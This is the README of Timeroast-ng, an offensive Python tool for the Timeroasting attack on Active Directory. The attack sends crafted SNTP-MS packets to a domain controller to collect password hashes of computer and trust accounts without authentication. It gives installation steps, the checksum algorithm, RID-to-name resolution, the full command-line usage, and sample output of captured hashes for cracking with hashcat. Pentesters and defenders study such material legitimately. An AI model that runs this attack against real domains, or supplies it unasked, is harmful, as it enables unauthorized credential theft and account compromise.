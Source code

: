 # Timeroast-ng

[![PyPI](https://img.shields.io/pypi/v/timeroast_ng)](https://pypi.org/project/timeroast_ng/)

Timeroasting ([Paper - Timeroasting, Trustroasting and Computer Spraying](https://www.secura.com/uploads/whitepapers/Secura-WP-Timeroasting-v3.pdf) by SecuraBV;
their [Repo - Timeroasting](https://github.com/SecuraBV/Timeroast)) is a simple attack
technnique that leverages the design concept of Microsoft's authentication extension
for the Simple Network Time Protocol ([SNTP-MS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sntp/)).

![example-output](/assets/example.png)

This technique involves sending specially crafted NTP packets to the domain controller
of an Active Directory in order to retrieve a checksum that was calculated using the
password of the targeted **computer** account. Since a server will only reply to requests
made from computer accounts, it is possible to retrieve password hashes for all computer
accounts in a domain. The resulting list of hashes can be cracked with hashcat using mode
`31300`.

## Installation

The main tool works out of the box with no dependencies. You can simply clone the repository -
optional dependencies are [impacket](https://github.com/fortra/impacket) (for `resolveRID.py`)
and [rich](https://github.com/Textualize/rich) to add colored output support.

Manual setup
```bash
git clone https://github.com/MatrixEditor/timeroast-ng
cd timeroast-ng
python3 timeroast-ng.py -r1000-2000 -T5 <dc_ip>
```

Installation via `pip`:
```bash
pip install git+https://github.com/MatrixEditor/timeroast-ng
```

## Background

What the hell is [SNTP-MS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sntp/)?
First of all, the Network Time Protocol (NTP) allows to place an optional authenticator payload,
storing a key identifier and an arbitrary digest value. The basic message flow can
be broken down to the following:

```
+------------+      NTP Packet (UDP, 123)
| Client NTP +------------------------------+
|  Request   | (1)                          |
+------------+                     +--------v---------+
                                   | Server processes |
                                   |  Client request  |
                                   +--------+---------+
                                            |
                                            |
                                   RID linked to Computer: Yes
                                            | (2)
                                   +--------v----------+
+-----------------+                | Server calculates |
| Client verifies | (3)            |  checksum using   |
|  NTP-Response   <----------------+ computer password |
+-----------------+    NTP-Reply   +-------------------+
```

1. The client prepares an NTP packet with the custom _Authenticator_ extension that stores
   the relative identifier (RID) of the requestor (computer account).
2. Server receives the request: packets of length `68` (_Authenticator_) and `120`
   (_ExtendedAuthenticator_) will be processed. Only if the given RID in the request packet
   is linked to a computer account, the server will generate a response. The reply will
   contain a checksum that was generated using the password of the target account. Algorithm:
   ```python
   MD5(MD4(password.encode("utf16-le") + response_message[:48]))
   ```
   All other NTP-related fields will be filled out normally as defined by NTP.
3. Normally, the client would verify the response by using its own password. Since we are only
   interested in capturing the hash (and salt), the flow ends here.

Q: **So, why is this useful?**

With this approach, any unauthenticated attacker could enumerate the RIDs of all computer accounts
within the domain and can try to crack their passwords. Moreover, since _Trust-Accounts_ are
computer accounts, they will be in the resulting list too.

Q: **There's an option to let the server calculate the checksum using the old password. Why can't we**
**leverage this behaviour to distinguish whether the password has changed recently on the target**
**computer account?**

Simply because we can't control the response message data. As the reply contains timestamps that we
can't predict, there is no gain in using this feature.

---

Generally speaking, _Timeroasting_ can be used to **anonymously** get the RIDs of all computer
accounts and trust accounts together with their password hashes. However, there is a huge downside:
we can't map the RID to a valid username. Currently, there is no option to anonymously map the
gathered identifiers with their correct username. Approaches could be

- Try to resolve the hostname of each Windows computer in the local network (e.g. using [NetExec](https://github.com/Pennyw0rth/NetExec))
    ```console
    $ nxc smb <cidr> --generate-hosts-file <outputfile>
    ```
- Generate a list of valid computer names and try password spraying (in case you cracked it).

Another way to resolve the computer name is by querying the domain controller using an authenticated
user. First of all, we need the domain's SID (e.g. with [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)
by impacket) - which is everything that is needed. The final LDAP query we have to execute looks
like this:
```
(&(objectSid=<Domain-SID>-<RID>))
```

To automate these queries one can use [resolveRID](resolveRID.py) to resolve the RID to an existing
computer account.


## Usage

The main script _timeroast-ng.py_ is designed for two modes of operation, both times supporting only the basic _Authenticator_ extension.

```txt
usage: timeroast-ng.py [options] dc_ip

Implementation of the Timeroasting attack to grab hashes from computer accounts using SNTP-MS.

options:
  -h, --help           show this help message and exit
  -no-color            disables colorized output (enabled by default if rich is not installed)
  -l, --listener ADDR  Local address to listen on

Target Options:
  dc_ip                Target Domain Controller IP address or host.
  -rt RID_FILE         Path to a file containing relative identifiers (RIDs) to target (TargetedTimeroast).
                       Each line will be interpreted as a RID range.
  -r, -range RANGES    Set the RID brute force range(s). Format is [start][-][end][, ...], whereby one
                       element must be present. For instance, '1-10' would be valid and '-10' or '10-' too.
                       You can use '-' to try ALL available RIDs (0 to (1 << 31) - 1). If start is not
                       specified it will be set to zero and end will be UINT32_MAX - 1.

Collection Options:
  -use-oldkey          Queries for the old password upon receiving a valid responce from the target server.
  -only-oldkey         Only queries for the old password of the machine account
  -skip-duplicate      Collects only new hashes. (Only together with -append and -outfile) This will work
                       only if the RID has been written to the hashes file.

Timing options:
  -non-blocking        Executes in non-blocking mode
  -wait SECONDS        Waits X seconds (float) after sending all requests (non-blocking mode only). Default
                       delay is 0.5s.
  -T <0-5>             Set timing template (higher is faster). Default template is T3.
  -timeout TIMEOUT     Timeout for local socket (blocking-mode) / refesh interval (non-blocking mode) in
                       seconds (default=0.01)

Output Options:
  -outfile OUTFILE     Stores the captured hashes into the given file. (use -append to add data to an
                       existing file)
  -append              Does not overwrite existing captured hashes
  -no-userid           Remove RID from output hash (otherwise --username must be used with hashcat)
```

## Non-Blocking Mode

This mode is recommended for users who don't have time to waste and don't need to be stealthy. For instance:
```console
$ python3 timeroast-ng.py <dc_ip> -r1000-2000 -T5 -non-blocking
```
will start an attack in non-blocking mode (means _faster_) on RIDs starting from `1000` to `2000`
(exclusive). The result could be something like this:
```
$ timeroast-ng.py 192.168.56.11 -r1000-1200 -T5 -non-blocking
[*] User RID will be added to the output hash - make sure to use --username with hashcat to crack them!
[*] Starting Timeroasting attack against: 192.168.56.11
1001:$sntp-ms$b644b0e1f8723f518c7d131c238b2ab9$1c020ae900000074000a5450c0a8380aeb814a1f1e19b0ab0000000000000000eb814d8c4a21c39feb814d8c4a21f446
1105:$sntp-ms$09737ab1e7c86ceaa9f9042c84d45560$1c020ae900000074000a5450c0a8380aeb814a1f1f2c1be70000000000000000eb814d8c4b3444abeb814d8c4b3453c4
1104:$sntp-ms$3c3ac1f9eabf9bc6e83a1682cb54f8ba$1c020ae900000074000a5450c0a8380aeb814a1f1f2961f90000000000000000eb814d8c4b318259eb814d8c4b3199d5
1123:$sntp-ms$ec534d53bef0508ed3febc99bb66f94a$1c020ae900000074000a5450c0a8380aeb814a1f1f6feea50000000000000000eb814d8c4b781916eb814d8c4b782327
1122:$sntp-ms$93dec08a525fd1df36ef9e204c13e255$1c020ae900000074000a5450c0a8380aeb814a1f1f6c1fe30000000000000000eb814d8c4b744a54eb814d8c4b7457c0
```

Some notes on this mode of operation:
- Receiving messages is done in a separate thread, therefore sending all request may complete before
  the server has been able to respond to valid packets. If your output contains less responces than
  expected, try to increase the `-wait` value.
- Since this mode will utilize the whole bandwith of the network, the server may not be able to respond
  directly to the first message received. Therefore, the waiting time at the end should be increased the
  lower the specified range is.
- **this mode is fast**
- **It is recommended to always use `-T5` with this mode as it will give the best results**

## Blocking-IO Mode

This is the default implementation using plain Pyton sockets (yes, a very primitive approach)
that will block until a timeout occurs or a packet was received.
```console
$ python3 timeroast-ng.py <dc_ip> -r1000-1200 -T5
```

## Range Specification

Timeroast-ng supports multiple range definitions thaz follow a broader pattern: `[start][-][end][, ...]`.
The following list contains valid examples:
```bash
-r-                         # MIN to MAX (exclusive)
-r-100                      # MIN to 100 (exclusive)
-r100-                      # 100 to MAX (exclusive)
-r 1001                     # only 1001
-r 1000-2000                # 1000 to 2000 (exclusive)
-range 10,20,100-200        # 10, 20 and from 100 to 200 (exclusive)
```

You can also write a file that contains range specifications in each line (use `-rt <file>`).

## License

Distributed under the MIT License. See LICENSE for more information.